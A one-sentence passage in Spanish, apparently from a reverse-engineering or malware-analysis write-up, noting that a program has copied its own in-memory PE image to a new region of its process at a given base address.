**<mark>Hasta aquí, el programa ha copiado su propia imagen PE, ya cargada en memoria, a una nueva región dentro de su mismo proceso, cuya dirección base es 00000217D85B0000.</mark>**

